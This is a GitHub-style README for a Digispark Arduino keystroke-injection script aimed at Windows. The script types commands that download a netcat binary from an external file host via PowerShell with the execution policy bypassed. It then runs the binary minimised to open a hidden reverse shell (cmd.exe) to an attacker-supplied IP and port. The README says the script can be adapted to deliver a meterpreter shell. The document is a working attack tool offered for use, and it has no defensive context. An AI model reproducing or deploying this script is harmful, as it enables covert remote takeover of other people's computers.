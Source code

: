 # Digispark Arduino Reverse Shell for windows 10

#### Although designed for windows 10 this script will work for windows vista onwards.

## A digispark arduino script to pop a reverse hidden shell to a specified ip address using netcat.

I recommend wrapping the pcb with electrical tape with small holes for the LED's to avoid shortages when transporting the device such as in the image below.

<img src="https://github.com/valkyrix/digispark-reverse-shell-windows-10/raw/master/digispark.jpg" align="middle" height="400" width="400" >

The listening machine will need to be running before the script is run.

This script can be easily modified to pop a reverse meterpreter shell instead of netcat.

link to download netcat has been hardcoded but can be replaced if wanted. To do this change the url to a direct download url of nc64.exe.
you can find standalone netcat from here: https://eternallybored.org/misc/netcat/

This script has been optimised to run on the digisparks limited memory requirements.

#### Warning: depending on the model of digispark the onboard led might be on pin 0 instead of 1.

LED Run-status: The LED will blink to state the code has started running. Once the code execution has completed the LED will stay illuminated and thus the device can be unplugged.

replace `IP` and `PORT` with your own values.
```Arduino
#include "DigiKeyboard.h"
/* Init function */
//script created by valkyrix.github.io
void setup()
{//turn LED off while code is running, this means the device is safe to unplug as soon as the LED turns back on
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd / & mkdir win & cd /win & echo (wget 'https://1fichier.com/?dtc7uqmikl' -OutFile a.exe) > b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("START /MIN a.exe IP PORT -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
}

/* Unused endless loop */
void loop() {}

```

